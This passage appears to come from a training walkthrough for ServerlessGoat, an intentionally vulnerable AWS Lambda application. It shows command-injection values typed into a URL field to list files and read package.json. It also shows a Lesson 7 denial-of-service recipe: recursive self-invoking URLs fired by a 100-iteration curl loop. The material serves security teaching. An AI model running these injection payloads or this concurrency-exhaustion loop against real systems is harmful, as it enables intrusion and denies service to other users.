 However, we need to know the version of the uuid package. Lets run `ls -lF` on the AWS Lambda /var/task directory, and see what we can find - try the following value in the URL form field: `https://www.puresec.io/hubfs/document.doc; ls #`

The results should be:
```
bin
index.js
node_modules
package.json
package-lock.json
```
Oops, the developer made a mistake and packaged the package.json file together with the function. Let's list its contents - use the following value in the URL form field: `https://www.puresec.io/hubfs/document.doc; cat package.json #`

Results:
```json
{
    "private": true,
    "dependencies": {
        "node-uuid": "1.4.3"
    }
}
```
Version 1.4.3 of this package is very old. Now it's time to launch your favorite OSS dependency checker and see what you can dig. Anyway, from here on, you are 'off script', we didn't plan for you to actually exploit the vulnerable dependency at this point.

### Lesson 7: Denial of Service - Really?! On Serverless? ###
Yes... even though serverless platforms automatically scale for you, by invoking concurrent function executions, there are limits. You can read more about the limits in the official AWS [documentation](https://docs.aws.amazon.com/lambda/latest/dg/concurrent-executions.html). You might have noticed, that you have a concurrency limit for the entire AWS account (the default is 1,000), but if you want to make sure that a single function doesn't end up depleting your entire account's concurrency limit, you should be using 'reserved capacity'. The developer of ServerlessGoat was smart enough to set each function with its own reserved capacity of 5 concurrency execution. We are going to abuse that. There are many ways to invoke the function 5 times, but if you want all 5 executions to stay alive for enough time, calling them recursively might help - here's the trick:

`https://i92uw6vw73.execute-api.us-east-1.amazonaws.com/Prod/api/convert?document_url=https%3A%2F%2Fi92uw6vw73.execute-api.us-east-1.amazonaws.com%2FProd%2Fapi%2Fconvert%3Fdocument_url...`

Note: This is going to be easier with a script...
* Craft a URL, starting with the actual API URL
* Set the value of the `document_url` to invoke itself, but URL-encode the URL (it's a parameter value now)
* Copy the entire thing, URL-encode all of it, and paste it as the parameter value, to yet another regular API URL
* Rinse, repeat x5 times. You should end up with a long URL like the one above

Now, let's get AWS Lambda busy with this, by invoking this at least a 100 times. For example:
```shell
for i in {1..100}; do
 echo $i
 curl -L https://{paste_url_here}
done
```
Let it run, and in a different terminal window, run another loop, with a simple API call. If you're lucky, from time to time you will notice a server(less) error reply. Yup, other users are not getting service.
